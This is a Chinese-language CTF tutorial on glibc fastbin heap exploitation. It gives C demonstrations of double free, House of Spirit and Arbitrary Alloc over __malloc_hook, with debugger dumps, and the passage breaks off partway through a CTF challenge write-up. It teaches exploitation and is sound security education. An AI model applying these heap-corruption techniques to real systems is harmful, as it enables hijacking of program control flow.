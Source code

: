Fastbin Attack
==============

介绍
----

fastbin attack 是一类漏洞的利用方法，是指所有基于 fastbin 机制的漏洞利用方法。这类利用的前提是：

-  存在堆溢出、use-after-free 等能控制 chunk 内容的漏洞
-  漏洞发生于 fastbin 类型的 chunk 中

如果细分的话，可以做如下的分类：

-  Fastbin Double Free
-  House of Spirit
-  Arbitrary Alloc

原理
----

fastbin attack 存在的原因在于 fastbin 是使用单链表来维护释放的堆块的，并且由 fastbin 管理的 chunk 即使被释放，其 next\_chunk 的 prev\_inuse 位也不会被清空。 我们来看一下 fastbin 是怎样管理空闲 chunk
的。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x30);
        chunk2=malloc(0x30);
        chunk3=malloc(0x30);
        //进行释放
        free(chunk1);
        free(chunk2);
        free(chunk3);
        return 0;
    }

释放前

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000000000  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

执行三次 free 进行释放后

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000602000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000602040  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

此时位于 main\_arena 中的 fastbin 链表中已经储存了指向 chunk3 的指针，并且 chunk 3、2、1构成了一个单链表

::

    Fastbins[idx=2, size=0x30,ptr=0x602080]
    ===>Chunk(fd=0x602040, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x602000, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x000000, size=0x40, flags=PREV_INUSE) 

我们可以使用如下的图片来表示这一点 |image0|

Fastbin Double Free
-------------------

介绍
~~~~

Fastbin Double Free 是指 fastbin 的 chunk 可以被多次释放，因此可以在 fastbin 链表中存在多次。这样导致的后果是多次分配可以从 fastbin
链表中取出同一个堆块，相当于多个指针指向同一个堆块，结合堆块的数据内容可以实现类似于类型混淆(type confused)的效果。

Fastbin Double Free 能够成功利用主要有两部分的原因

1. fastbin 的堆块被释放后 next\_chunk 的 pre\_inuse 位不会被清空
2. fastbin 在执行 free 的时候仅验证了 main\_arena 直接指向的块，对于链表后面的块，并没有进行验证。

::

    /* Another simple check: make sure the top of the bin is not the
           record we are going to add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          {
            errstr = "double free or corruption (fasttop)";
            goto errout;
    }

演示
~~~~

下面的示例程序说明了这一点，当我们试图执行以下代码时

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk1);
        return 0;
    }

如果你执行这个程序，不出意外的话会得到如下的结果，这正是 \_int\_free 函数检测到了 fastbin 的 double free。

::

    *** Error in `./tst': double free or corruption (fasttop): 0x0000000002200010 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fbb7a36c7e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7fbb7a37537a]
    /lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7fbb7a37953c]
    ./tst[0x4005a2]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7fbb7a315830]
    ./tst[0x400499]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    02200000-02221000 rw-p 00000000 00:00 0                                  [heap]
    7fbb74000000-7fbb74021000 rw-p 00000000 00:00 0 
    7fbb74021000-7fbb78000000 ---p 00000000 00:00 0 
    7fbb7a0df000-7fbb7a0f5000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a0f5000-7fbb7a2f4000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f4000-7fbb7a2f5000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f5000-7fbb7a4b5000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a4b5000-7fbb7a6b5000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b5000-7fbb7a6b9000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b9000-7fbb7a6bb000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6bb000-7fbb7a6bf000 rw-p 00000000 00:00 0 
    7fbb7a6bf000-7fbb7a6e5000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8c7000-7fbb7a8ca000 rw-p 00000000 00:00 0 
    7fbb7a8e1000-7fbb7a8e4000 rw-p 00000000 00:00 0 
    7fbb7a8e4000-7fbb7a8e5000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e5000-7fbb7a8e6000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e6000-7fbb7a8e7000 rw-p 00000000 00:00 0 
    7ffcd2f93000-7ffcd2fb4000 rw-p 00000000 00:00 0                          [stack]
    7ffcd2fc8000-7ffcd2fca000 r--p 00000000 00:00 0                          [vvar]
    7ffcd2fca000-7ffcd2fcc000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

如果我们在 chunk1 释放后，再释放 chunk2 ，这样 main\_arena 就指向 chunk2 而不是 chunk1 了，此时我们再去释放 chunk1 就不再会被检测到。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        return 0;
    }

第一次释放\ ``free(chunk1)``

.. figure:: /pwn/heap/figure/fastbin_free_chunk1.png
   :alt: 

第二次释放\ ``free(chunk2)``

.. figure:: /pwn/heap/figure/fastbin_free_chunk2.png
   :alt: 

第三次释放\ ``free(chunk1)``

.. figure:: /pwn/heap/figure/fastbin_free_chunk3.png
   :alt: 

注意因为 chunk1 被再次释放因此其 fd 值不再为 0 而是指向 chunk2，这时如果我们可以控制 chunk1 的内容，便可以写入其 fd 指针从而实现在我们想要的任意地址分配 fastbin 块。
下面这个示例演示了这一点，首先跟前面一样构造 main\_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用 malloc 返回 chunk1 之后修改 chunk1 的 fd 指针指向 bss 段上的 bss\_chunk，之后我们可以看到 fastbin
会把堆块分配到这里。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    CHUNK bss_chunk;

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        void *chunk_a,*chunk_b;
        
        bss_chunk.size=0x21;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        
        chunk_a=malloc(0x10);
        *(long long *)chunk_a=&bss_chunk;
        malloc(0x10);
        malloc(0x10);
        chunk_b=malloc(0x10);
        printf("%p",chunk_b);
        return 0;
    }

在我的系统上 chunk\_b 输出的值会是 0x601090，这个值位于bss段中正是我们之前设置的\ ``CHUNK bss_chunk``

::

    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

    0x601080 <bss_chunk>:   0x0000000000000000  0x0000000000000021
    0x601090 <bss_chunk+16>:0x0000000000000000  0x0000000000000000
    0x6010a0:               0x0000000000000000  0x0000000000000000
    0x6010b0:               0x0000000000000000  0x0000000000000000
    0x6010c0:               0x0000000000000000  0x0000000000000000

值得注意的是，我们在 main 函数的第一步就进行了\ ``bss_chunk.size=0x21;``\ 的操作，这是因为\_int\_malloc会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。

::

    *** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
    ./tst[0x400636]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
    ./tst[0x4004e9]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
    7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0 
    7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0 
    7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1ff000-7f8f9e201000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e201000-7f8f9e205000 rw-p 00000000 00:00 0 
    7f8f9e205000-7f8f9e22b000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e40d000-7f8f9e410000 rw-p 00000000 00:00 0 
    7f8f9e427000-7f8f9e42a000 rw-p 00000000 00:00 0 
    7f8f9e42a000-7f8f9e42b000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42b000-7f8f9e42c000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42c000-7f8f9e42d000 rw-p 00000000 00:00 0 
    7fff71a94000-7fff71ab5000 rw-p 00000000 00:00 0                          [stack]
    7fff71bd9000-7fff71bdb000 r--p 00000000 00:00 0                          [vvar]
    7fff71bdb000-7fff71bdd000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

\_int\_malloc 中的校验如下

::

    if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
        {
          errstr = "malloc(): memory corruption (fast)";
        errout:
          malloc_printerr (check_action, errstr, chunk2mem (victim));
          return NULL;
    }

小总结
~~~~~~

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。 如果更进一步修改 fd
指针，则能够实现任意地址分配堆块的效果(首先要通过验证)，这就相当于任意地址写任意值的效果。

House Of Spirit
---------------

介绍
~~~~

House of Spirit 是 House of XX 的一种，House of XX 是 2004 年左右的一篇关于 Linux 堆利用的技术文章中提出一系列利用方法。 HOS 可以使得 fastbin
堆块分配到栈中，从而实现控制栈中的一些关键数据，比如返回地址等。

如果你已经理解了前文所讲的 Fastbin Double Free，那么理解 HOS 就已经不成问题了，它们的本质都在于 fastbin 链表的构成特性：当前 chunk 的 fd 指针指向下一个 chunk。 HOS 的核心同样在于劫持 fastbin 链表中
chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，实现控制栈中数据。

演示
~~~~

这次我们把 fake\_chunk 置于栈中称为 stack\_chunk，同时劫持了fastbin 链表中 chunk 的 fd 值，通过把这个 fd 值指向 stack\_chunk 就可以实现在栈中分配 fastbin chunk。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    int main(void)
    {
        CHUNK stack_chunk;
        
        void *chunk1;
        void *chunk_a;
        
        stack_chunk.size=0x21;
        chunk1=malloc(0x10);
        
        free(chunk1);
        
        *(long long *)chunk1=&stack_chunk;
        malloc(0x10);
        chunk_a=malloc(0x10);
        return 0;
    }

通过gdb调试可以看到我们首先把 chunk1 的 fd 指针指向了 stack\_chunk

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk1
    0x602010:   0x00007fffffffde60  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk

之后第一次 malloc 使得 fastbin 链表指向了 stack\_chunk，这意味着下一次分配会使用 stack\_chunk 的内存进行

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000000000000 <=== unsorted bin
    0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  

最终第二次malloc返回值为0x00007fffffffde70也就是stack\_chunk

::

       0x400629 <main+83>        call   0x4004c0 <malloc@plt>
     → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
       $rax   : 0x00007fffffffde70
       
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
    0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
    0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

小总结
~~~~~~

通过 HOS 我们可以把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持fastbin 中 chunk 的 fd 域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

Arbitrary Alloc
---------------

介绍
~~~~

Arbitrary Alloc 其实与 House of Spirit 是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的size域，我们可以把chunk分配到任意的可写内存中，比如bss、heap、data、stack等等。

大家可能会认为 HOS 与 arbitrary alloc 没有什么区别，因此没有必要分为两类。相信看完下面的一个例子，就会有不一样的想法了。

演示
~~~~

在这个例子，我们使用字节错位来实现直接分配 fastbin 到\ **\_malloc\_hook的位置，相当于覆盖\_malloc\_hook来控制程序流程。**

::

    int main(void)
    {
        
        
        void *chunk1;
        void *chunk_a;
        
        chunk1=malloc(0x60);
        
        free(chunk1);
        
        *(long long *)chunk1=0x7ffff7dd1b05;
        malloc(0x60);
        chunk_a=malloc(0x60);
        return 0;
    }

这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。

::

    0x7ffff7dd1a88 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a90 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a98 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0

0x7ffff7dd1b10 是我们想要控制的 \_\_malloc\_hook 的地址，于是我们向上寻找是否可以错位出一个合法的size域。因为这个程序是 64 位的，因此 fastbin 的范围为32字节到128字节(0x20-0x80)，如下：

::

    //这里的size指用户区域，因此要小2倍SIZE_SZ
    Fastbins[idx=0, size=0x10] 
    Fastbins[idx=1, size=0x20] 
    Fastbins[idx=2, size=0x30] 
    Fastbins[idx=3, size=0x40] 
    Fastbins[idx=4, size=0x50] 
    Fastbins[idx=5, size=0x60] 
    Fastbins[idx=6, size=0x70] 

通过观察发现 0x7ffff7dd1af5 处可以现实错位构造出一个0x000000000000007f

::

    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0

    0x7ffff7dd1af5 <_IO_wide_data_0+309>:   0x000000000000007f

因为 0x7f 在计算 fastbin index 时，是属于 index 5 的，即 chunk 大小为 0x70 的。

.. code:: c

    ##define fastbin_index(sz)                                                      \
        ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

而其大小又包含了 0x10 的 chunk\_header，因此我们选择分配 0x60 的 fastbin，将其加入链表。 最后经过两次分配可以观察到 chunk 被分配到 0x00007ffff7dd1b15，因此我们就可以直接控制 \_\_malloc\_hook的内容。

::

    0x4005a8 <main+66>        call   0x400450 <malloc@plt>
     →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax
     
     $rax   : 0x00007ffff7dd1b15 
     
    0x7ffff7dd1b05 <__memalign_hook+5>: 0xfff7a92a0000007f  0x000000000000007f
    0x7ffff7dd1b15 <__malloc_hook+5>:   0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b25 <main_arena+5>:  0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b35 <main_arena+21>: 0x0000000000000000  0x0000000000000000

小总结
~~~~~~

虽然 Arbitrary Alloc 与 HOS 的原理是相同的，但是 Arbitrary Alloc 在 CTF 中要比 HOS 使用地更加频繁。我们可以利用字节错位等方法来绕过 size 域的检验，实现任意地址分配
chunk，最后的效果也就相当于任意地址写任意值。

2015 9447 CTF : Search Engine
-----------------------------

基本信息
~~~~~~~~

.. code:: shell

    ➜  2015_9447ctf_search-engine git:(master) file search
    search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
    ➜  2015_9447ctf_search-engine git:(master) checksec search   
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        FORTIFY:  Enabled

基本功能
~~~~~~~~

程序的基本功能是

-  索引一个句子
-  大小v0，(unsigned int)(v0 - 1) > 0xFFFD
-  读取的字符串长度必须和给定的大小相等
-  每次索引的句子都是直接在直接建立在前面的句子上的。
-  在一个句子中搜索单词
-  大小v0，(unsigned int)(v0 - 1) > 0xFFFD
-  读取指定长度字符串
-  如果有回车标记

   -  在指定长度内没有遇到回车，则读完没有设置NULL标记
   -  在指定长度内遇到回车，就截断返回。

-  没有回车标记

   -  读够指定长度，没有NULL标记结尾。

词语结构体
~~~~~~~~~~

通过分析索引句子的过程，我们可以得到词语的结构如下

::

    00000000 word_struct     struc ; (sizeof=0x28, mappedto_6)
    00000000 content         dq ?
    00000008 size            dd ?
    0000000C padding1        dd ?
    00000010 sentence_ptr    dq ?                    ; offset
    00000018 len             dd ?
    0000001C padding2        dd ?
    00000020 next            dq ?                    ; offset
    00000028 word_struct     ends

堆内存相关操作
~~~~~~~~~~~~~~

分配

-  malloc 40 字节为一个word结构体
-  为句子或者单词 malloc 指定大小。

释放

-  释放删除的句子
-  释放删除句子所搜索的临时单词
-  释放索引句子时未使用的单词结构

漏洞
~~~~

**索引句子读取字符串时无NULL结尾**

在索引句子时 flag\_enter 永远为 0，所以读取句子时最后没有 NULL 结尾。

.. code:: c

        _flag_enter = flag_enter;
        v4 = 0;
        while ( 1 )
        {
          v5 = &s[v4];
          v6 = fread(&s[v4], 1uLL, 1uLL, stdin);
          if ( v6 <= 0 )
            break;
          if ( *v5 == '\n' && _flag_enter )
          {
            if ( v4 )
            {
              *v5 = 0;
              return;
            }
            v4 = v6 - 1;
            if ( len <= v6 - 1 )
              break;
          }
          else
          {
            v4 += v6;
            if ( len <= v4 )
              break;
          }
        }

**读取选择操作数**

.. code:: c

    __int64 read_num()
    {
      __int64 result; // rax
      char *endptr; // [rsp+8h] [rbp-50h]
      char nptr; // [rsp+10h] [rbp-48h]
      unsigned __int64 v3; // [rsp+48h] [rbp-10h]

      v3 = __readfsqword(0x28u);
      read_str(&nptr, 48, 1);
      result = strtol(&nptr, &endptr, 0);
      if ( endptr == &nptr )
      {
        __printf_chk(1LL, "%s is not a valid number\n", &nptr);
        result = read_num();
      }
      __readfsqword(0x28u);
      return result;
    }

因为 read\_str 不设置NULL ，因此，如果 nptr 读取的不合法的话，就有可能会 leak 出栈上的内容。

**索引句子释放未置NULL**

.. code:: c

      else
      {
        free(v6);
      }

**搜索词语中删除词语时，对应句子指针只是释放，并没有设置为NULL**

.. code:: c

      for ( i = head; i; i = i->next )
      {
        if ( *i->sentence_ptr )
        {
          if ( LODWORD(i->size) == v0 && !memcmp((const void *)i->content, v1, v0) )
          {
            __printf_chk(1LL, "Found %d: ", LODWORD(i->len));
            fwrite(i->sentence_ptr, 1uLL, SLODWORD(i->len), stdout);
            putchar('\n');
            puts("Delete this sentence (y/n)?");
            read_str(&choice, 2, 1);
            if ( choice == 'y' )
            {
              memset(i->sentence_ptr, 0, SLODWORD(i->len));
              free(i->sentence_ptr);
              puts("Deleted!");
